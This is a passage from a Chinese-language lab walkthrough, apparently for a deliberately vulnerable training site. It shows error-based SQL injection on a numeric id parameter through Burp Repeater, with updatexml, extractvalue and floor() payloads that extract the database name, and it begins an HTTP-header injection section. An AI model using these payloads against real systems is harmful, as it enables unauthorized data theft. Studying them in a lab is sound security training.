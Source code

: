 发送到 `Repeater` 模块中继续进行测试

发现可能存在数字型注入漏洞



**构造Payload：**

- 修改id值时
- 需要做URL转码
- 再放包

### **爆库**

- 爆库的时候需要用burp进行抓包
- 然后发送到 `Repeater` 模块中继续进行测试
- 在id值后面加上下面的语句

**updatexml()函数：**

```sql
1 and updatexml(1,concat('~',database()),1)
```

![image-20220206224353271](https://gitee.com/xxb667/img/raw/master/img/image-20220206224353271.png)

**extractvalue()函数：**

```sql
1 and extractvalue(1,concat('~',database()))
```

![image-20220206224623066](https://gitee.com/xxb667/img/raw/master/img/image-20220206224623066.png)

**floor()函数：**

```sql
1 and (select 1 from (select count(*),concat('~',database(),'~',floor(rand(0)*2))as x from information_schema.tables group by x)a)
```



- 获取其他数据库信息参照上面 insert 注入
- 只是闭合方式不同

## 4.9."http header"注入

查看提示得到登录账号

```
账号：admin 
密码：123456
```

登陆之后会记录以下信息

```markdown
你的ip地址:192.168.137.1

你的user agent:Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36 Edg/84.0.522.44

你的http accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

你的端口（本次连接）:tcp11004
```
